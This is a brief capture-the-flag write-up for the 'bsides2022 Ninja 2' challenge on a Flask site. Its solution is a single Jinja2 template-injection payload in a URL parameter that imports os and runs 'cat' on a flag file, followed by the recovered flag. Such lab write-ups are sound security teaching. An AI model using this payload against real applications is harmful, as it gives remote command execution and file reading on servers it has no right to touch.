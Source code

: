 ```yaml
---
title: bsides2022 – Ninja 2
tags: python, flask, injection
---
```


## Challenge

> Part 2 of 3: what do you know?

This challenge was on the same website as [Ninja 1]({% link ctf/_posts/2022-10-17-bsides2022_Ninja_1.md %}).

## Solution

{%raw%}`[URL]/?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('cat /home/appuser/flag.txt').read()}}`
{%endraw%} returned the flag: `flag{datt3bay0!}`

